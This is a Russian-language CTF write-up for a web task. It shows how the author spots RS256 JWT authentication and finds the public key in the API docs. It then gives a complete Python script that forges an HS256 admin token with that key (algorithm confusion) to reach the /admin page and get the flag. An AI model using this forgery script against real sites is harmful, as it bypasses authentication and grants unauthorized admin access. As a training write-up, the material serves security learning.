







Заходим на сайт, определяем интересные моменты, на которых может строиться таск:

1. Документация на API, в которой есть какой-то ключ:



2. Форма входа:



Дальше пробуем зарегаться, изучить как происходит авторизация.

После успешной регистрации редиректит на профиль, в котором только статичные данные, взятые с воздуха:



Сразу просматриваем куки и делаем вывод, что авторизация происходит через JWT, так как в куки лежит токен разделенный на три части:

 

Из закрытых ресурсов проверим админку, доступ к которой закрыт:



Единственный публичный ключ, который мы видели на сайте - использовался для проверки транзакций. Возможно, та же ключевая пара используется и для пользователей. Пробуем проверить и подтверждаем догадки (также замечаем `role: user` и RS256):



Ссылаясь на раннее известный [JWT KeyConfusion](https://portswigger.net/web-security/jwt/algorithm-confusion), пробуем подделать наш токен с какой-нибудь ролью покруче, так как в таком дырявом сайте вполне вероятно, что кодеры в алгоритмах разрешили не только RS256.

В интернете достаточно информации о том как собирать токен вручную/через библиотеки, но в данном случае был выбран вариант с ручками из-за проблем с PyJWT. Пишем небольшой скриптик:
```python
import requests
import hmac
import hashlib
import base64
import json
from bs4 import BeautifulSoup

# URL сервиса
base_url = "http://localhost:5000"

# Ключ из документации
pub_key = '''-----BEGIN PUBLIC KEY-----

-----END PUBLIC KEY-----
'''

# Опять ссылаюсь на последний источник: суть в HMAC, который использует один ключ и для проверки, и для подписи.
header = json.dumps({"alg": "HS256", "typ": "JWT"}, separators=(",", ":"))
payload = json.dumps({"user": "awd", "role": "admin"}, separators=(",", ":"))

encoded_header = base64.urlsafe_b64encode(header.encode()).decode().rstrip("=")
encoded_payload = base64.urlsafe_b64encode(payload.encode()).decode().rstrip("=")

signing_input = f"{encoded_header}.{encoded_payload}".encode()
signature = hmac.new(pub_key.encode(), signing_input, hashlib.sha256)
encoded_signature = base64.urlsafe_b64encode(signature.digest()).decode().rstrip("=")

jwt_token = f"{encoded_header}.{encoded_payload}.{encoded_signature}"
print('JWT: ', jwt_token)

response = requests.get(
    f"{base_url}/admin",
    cookies={"auth_token": jwt_token}
)

print("Status Code:", response.status_code)
print("Response:", response.text)
```

Запускаем и получаем долгожданный флаг:

